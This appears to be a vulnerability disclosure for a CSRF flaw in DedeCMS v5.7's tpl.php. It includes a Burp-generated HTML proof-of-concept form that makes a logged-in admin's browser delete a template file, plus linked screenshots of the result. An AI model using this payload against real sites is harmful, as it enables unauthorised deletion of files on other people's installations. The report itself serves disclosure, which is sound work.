 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/tpl.php
![1](https://github.com/Hckwzh/cms/assets/128144400/019753b2-62ef-4c70-9f75-56de593c5bf3)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/tpl.php">
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="acdir" value="default" />
      <input type="hidden" name="filename" value="ajaxfeedback2&#46;htm" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```
![2](https://github.com/Hckwzh/cms/assets/128144400/370c66ee-1d69-46b2-b24c-8b66dcb8b3df)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/11e3576b-bb1d-4b28-ab13-4d6dd98985fa)

